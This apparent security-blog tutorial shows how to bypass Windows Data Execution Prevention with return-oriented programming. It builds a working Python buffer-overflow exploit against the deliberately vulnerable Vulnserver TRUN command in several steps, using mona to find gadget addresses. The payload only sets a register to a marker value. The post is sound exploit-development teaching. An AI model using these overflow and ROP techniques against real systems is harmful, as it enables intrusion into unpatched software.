 :slug: bypassing-dep/
:date: 2020-08-24
:category: attacks
:subtitle: Running instructions by reference
:tags: osee, training, exploit
:image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330681/blog/bypassing-dep/cover_lrfinv.webp
:alt: Photo by Michael Dziedzic on Unsplash
:description: This post will show how bypass the Data Execution Prevention security mechanism using Return-Oriented Programming.
:keywords: Business, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/pM9pkc9J918

= Bypassing DEP with ROP

In the link:../understanding-dep/[last blog entry],
we made an introduction to what `DEP` (Data Execution Protection) is
and how it affected common buffer overflow exploits.

In this post, we will show a way to bypass `DEP` using Return-Oriented
Programming or `ROP`.

== Return-Oriented Programming (ROP)

When we are writing an exploit to a buffer overflow vulnerability on an
application without `DEP`, we overwrite the saved instruction pointer on the
stack frame of the affected function with a pointer to something like
`JMP ESP` (or any other register pointing to our shellcode).
We then place a shellcode on the stack,
which is finally executed when the `JMP ESP` is performed.

When we perform a `JMP ESP` (or any other general-purpose register),
the program expects to find *instructions* in the address pointed to `ESP`.
With `DEP`, we can't execute instructions on the stack,
but we still control the execution flow.

But what would happen if, instead of overwriting the `Saved EIP` with
a pointer to `JMP ESP`, we overwrite it with a pointer to a `RETN`
instruction? The `RETN` instruction is commonly used in the function epilogues
and will make one thing: Pop the value pointed by `ESP` and use it as the
next instruction pointer or `EIP`. In other words, `RETN` expects to find
in the address pointed to `ESP`, a *pointer to an instruction*,
not an *instruction* itself.

As we control the execution flow and also can write on the stack, we can
do whatever we want. Let's find a `RETN` instruction first:

[source,bash]
----
!mona find -type instr -s "retn" -p 10 -o
----

This will tell `mona` to find up to 10 `RETN` instructions. The result is:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330678/blog/bypassing-dep/retn1_gtil26.webp[RETN instructions]

Let's take the first one at `62501022` and update the exploit of the
link:../understanding-dep/[previous post]. This time we want to make `EAX`
have the value `0xdeadbeef`:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And see what happens:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330677/blog/bypassing-dep/rop1_z13yrk.gif[RETN]

Here's a detail of what happened:

. We put a breakpoint at the address of the `RETN` instruction.
. We executed the exploit.
. The breakpoint was hit.
. When it hits, look carefully at the value pointed by `ESP`: `EE05C031`.
. That value is part of the shellcode injected:
.. `xor eax,eax` -> `\x31\xc0`
.. `add eax,0xdeadbeee` -> `\x05\xee\xbe\xad\xde` (the first two bytes)
. When the `RETN` instruction is executed,
that value `EE05C031` is stored on `EIP`.

What it means is that we can replace the `EE05C031` bytes with an arbitrary
pointer that will become the next instruction to be executed!

In our exploit, we want to make `EAX` = `0xdeadbeef` using three
instructions: `xor eax,eax`, `add eax,0xdeadbeee` and `inc eax`. Let's check
if we can find a pointer in the execution environment that performs the
first (`xor eax,eax`) operation:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330677/blog/bypassing-dep/find1_it5idv.gif[RETN]

We could find one at `62501162` that points to a `xor eax,eax`.
Let's update our exploit and place that address instead of
the `xor eax,eax` instruction:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 62501162  |.  31C0                  XOR EAX,EAX
    struct.pack('<L', 0x62501162) +
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330677/blog/bypassing-dep/rop2_aacijn.gif[ROP]

Wonderful! Here's what happened:

. The pointer to the `RETN` instruction was reached.
. When the `RETN` ran, it retrieved the value pointed by `ESP` and updated
`EIP` with that.
. In our case, that value was a pointer to a `xor eax,eax` instruction.
. With that, the `xor eax,eax` was successfully executed! We bypassed DEP!

However, there's a problem with that. If you look again at the animation,
the execution flow was diverted to the location on where the `xor eax,eax`
instruction was placed, but then we lost control.

We need to make `EAX = 0xdeadbeee`. There are several ways to do that. We
tried with `xor eax,eax -> add eax,0xdeadbeee` but another way to do it
is to place the value `0xdeadbeee` on top of the stack and then perform a
`pop eax`. We also need to regain control of the execution flow. This can be
done by returning to the stack, so we can execute the last
instruction on our shellcode `inc eax` and make `EAX = 0xdeadbeef`.
That means that we need to find an address to a `pop eax` instruction
followed by a `retn`.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330677/blog/bypassing-dep/popeax1_ikidee.gif[POP EAX]

Bingo! We found it at `625011B4`. Now, do you see why this is called
Return-Oriented Programming? It is because we always need to return back to
the stack to fetch the next pointer to our next desired instruction.
For the record, any instruction or set of instructions
followed by a `retn` is called a *Gadget* in `ROP` terms.

Our `pop eax # retn` gadget relies on the stack having the value `0xdeadbeee`
on the top. Let's update our exploit with that:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330678/blog/bypassing-dep/popeax2_has6yi.gif[POP EAX]

Beautiful! We were able to make `EAX = 0xdeadbeee` using `ROP`. Now, the final
step is to find an `inc eax` pointer to make `EAX = 0xdeadbeef`.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330678/blog/bypassing-dep/inceax_zeq83l.webp[INC EAX]

We found one at `00402139`. As this is the last instruction of our shellcode,
the NULL byte won't affect the exploit. Let's update the code:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    # 00402139   .  40                    INC EAX
    struct.pack('<L', 0x00402139) +
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330680/blog/bypassing-dep/rop3_gkn3oz.gif[ROP]

Success! We were able to make `EAX = 0xdeadbeef` without executing a single
instruction on the stack! We have bypassed `DEP`!

== Using mona to find gadgets

You may notice by now that finding useful gadgets could become something
really tedious. Fortunately for us, `mona` has made this task easy.
You just need to issue the following:

[source,bash]
----
!mona rop
----

And wait for `mona` to do the hard work:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330687/blog/bypassing-dep/mona1_wj7c6p.gif[Mona ROP]

With that, `mona` will find usable gadgets on the execution environment.
A file called `rop.txt` is placed on the `mona` directory of the debuggee
application containing all the gadgets found. `mona` also generates
a proposal of something called `ROP chains`, which is nothing but a set of
ROP gadgets chained together to perform something more complex. I won't spoil
the next blog entry, but ROP chains will be used later in a more
link:../vulnserver-trun-rop/[serious exploitation].

== Conclusions

In this article, we could see a way to bypass the Data Execution Protection
on a modern Windows system. However, the shellcode used here was very basic
and was only for demonstrating the fact that `DEP` can be bypassed.
We will use ROP to create something more complex in the
link:../vulnserver-trun-rop/[next post].
